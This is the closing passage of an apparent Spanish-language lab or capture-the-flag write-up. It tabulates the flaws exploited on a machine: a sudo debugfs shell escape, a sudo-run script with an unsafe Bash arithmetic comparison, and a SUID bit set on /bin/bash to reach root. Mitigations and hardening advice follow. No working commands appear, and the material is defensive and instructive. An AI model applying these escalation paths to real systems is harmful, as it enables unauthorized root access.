| **Permisos de `sudo` sobre `debugfs`** | Su interfaz interactiva permite invocar una shell con los privilegios de `ruben`. | No conceder permisos de `sudo` sobre herramientas interactivas sin restricciones adecuadas. |
| **Script `/opt/penguin.sh` ejecutable mediante `sudo`** | Permite ejecutar lógica manipulada por el usuario con privilegios elevados. | Revisar los scripts privilegiados y validar correctamente todas las entradas. |
| **Comparación aritmética insegura en Bash** | Permite ejecutar comandos mediante una expresión especialmente construida. | Evitar evaluar entradas no confiables como expresiones aritméticas y validar los valores numéricos de forma segura. |
| **Modificación del bit SUID de `/bin/bash`** | Permite iniciar una shell conservando privilegios elevados y obtener acceso como `root`. | Impedir cambios no autorizados en archivos ejecutables críticos y auditar el uso de permisos SUID. |

## Recomendaciones generales

- Evitar exponer backups y archivos que contengan credenciales desde el servidor web.
- Mantener WordPress y sus plugins actualizados.
- Aplicar el principio de mínimo privilegio en las reglas de `sudo`.
- Evitar conceder permisos sobre herramientas que permitan ejecutar comandos o escapar a una shell interactiva.
- Validar las entradas de scripts ejecutados con privilegios elevados, especialmente cuando se utilizan expresiones aritméticas de Bash.
- Proteger los archivos ejecutables críticos y auditar los cambios en sus permisos.
- Revisar periódicamente las configuraciones de `sudo`, los permisos de archivos y las posibles vías de escalada de privilegios.
